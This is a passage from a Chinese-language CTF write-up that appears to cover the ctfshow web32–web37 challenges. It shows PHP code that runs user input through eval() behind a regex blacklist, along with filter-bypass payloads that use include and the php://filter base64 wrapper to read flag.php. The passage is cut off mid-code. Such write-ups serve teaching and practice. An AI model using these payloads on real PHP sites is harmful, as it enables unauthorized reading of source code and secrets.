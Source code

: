 源码里面也没有对 `$`进行过滤，用 `$_POST[x]`或者 `$_GET[x]`，然后用php伪协议将include包含的文件显示出来

payload：`?c=include"$_GET[url]"?>&url=php://filter/read=convert.base64-encode/resource=flag.php`

base64解码：

![image-20230428235716076](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230428235716076.png)

# web33

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 02:22:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
//
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
  
}else{
    highlight_file(__FILE__);
}
```

方法同上，只不过是这题过滤了双引号，所以把payload改成：

`?c=include$_GET[url]?>&url=php://filter/read=convert.base64-encode/resource=flag.php`即可

![image-20230429001355876](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230429001355876.png)

# web34-36

用web33的payload即可，原理一样

# web37

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:18:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
```